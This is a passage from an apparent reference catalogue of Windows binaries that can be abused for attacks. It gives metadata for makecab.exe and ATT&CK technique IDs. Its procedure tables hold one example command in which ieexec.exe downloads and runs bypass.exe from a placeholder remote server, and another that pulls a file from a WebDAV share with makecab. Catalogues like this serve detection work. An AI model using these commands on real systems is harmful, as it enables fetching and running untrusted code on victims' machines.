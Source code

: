  
 

 

#### Procedures

|Category|Example Command|Description|
|--------|---------------|-----------|
|Download|`ieexec.exe http://x.x.x.x:8080/bypass.exe`|Downloads and executes bypass.exe from the remote server.|


 

#### Search Queries


> Analytic Goes Here!


 
## Makecab.exe

Binary to package existing files into a cabinet (.cab) file

#### Metadata

|Details||
|-------|---|
|**MITRE ATT&CK Technique IDs**|<div style="text-align: left"><ul><li>T1096</li><li>T1105</li></ul></div>|
|**Categories**|<div style="text-align: left"><ul><li>ADS</li><li>Download</li></ul></div>|
|**Relevant Operating Systems**|<div style="text-align: left"><ul><li>Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10</li></ul></div>|
|**File Paths**|<div style="text-align: left"><ul><li>`C:\Windows\System32\makecab.exe`</li><li>`C:\Windows\SysWOW64\makecab.exe`</li></ul></div>|
|**Code Samples**|<div style="text-align: left"><ul><li>None</li></ul></div>|
|**Acknowledgements**|<div style="text-align: left"><ul><li>Oddvar Moe (@oddvarmoe)</li></ul></div>|
|**Additional Resources**|<div style="text-align: left"><ul><li>https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f</li></ul></div>|

 

#### Procedures

|Category|Example Command|Description|
|--------|---------------|-----------|
|Download|`makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab`|Download and compresses the target file and stores it in the target file.|


 

#### Search Queries


> Analytic Goes Here!


 
## MpCmdRun.exe
